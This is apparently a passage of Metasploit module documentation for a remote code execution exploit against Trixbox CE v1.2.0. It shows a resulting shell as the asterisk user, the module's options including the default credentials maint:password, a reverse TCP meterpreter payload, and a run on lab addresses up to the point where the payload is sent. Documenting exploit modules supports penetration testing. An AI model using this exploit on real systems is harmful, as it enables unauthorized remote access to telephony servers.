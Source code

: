```
meterpreter > shell
Process 14144 created.
Channel 1 created.
id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
whoami
asterisk
```

### Trixbox CE v1.2.0
```
msf > use exploit/unix/webapp/trixbox_ce_endpoint_devicemap_rce 
msf exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > show options

Module options (exploit/unix/webapp/trixbox_ce_endpoint_devicemap_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  password         yes       Password to login with
   HttpUsername  maint            yes       User to login with
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80               yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Linux Dropper)


msf exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > set LHOST 192.168.205.1
LHOST => 192.168.205.1
msf exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > set SRVHOST 192.168.205.1
SRVHOST => 192.168.205.1
msf exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > set RHOSTS 192.168.205.148
RHOSTS => 192.168.205.148
msf exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > exploit

[*] Started reverse TCP handler on 192.168.205.1:4444 
[*] 192.168.205.148:80 - Authenticating using "maint:password" credentials...
[+] 192.168.205.148:80 - Authenticated successfully.
[+] 192.168.205.148:80 - Trixbox CE v1.2.0 identified.
[*] 192.168.205.148:80 - Sending payload (150 bytes)...
```